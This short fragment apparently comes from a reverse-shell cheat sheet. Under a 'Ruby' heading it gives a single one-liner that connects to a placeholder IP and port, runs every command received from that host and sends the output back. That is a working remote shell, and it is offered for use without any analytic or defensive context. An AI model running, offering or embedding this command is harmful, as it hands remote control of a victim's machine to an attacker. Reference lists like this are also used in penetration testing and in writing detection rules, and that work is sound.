 # Ruby

`C:\> ruby -rsocket -e 'c=TCPSocket.new("<IP>","<PORT>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`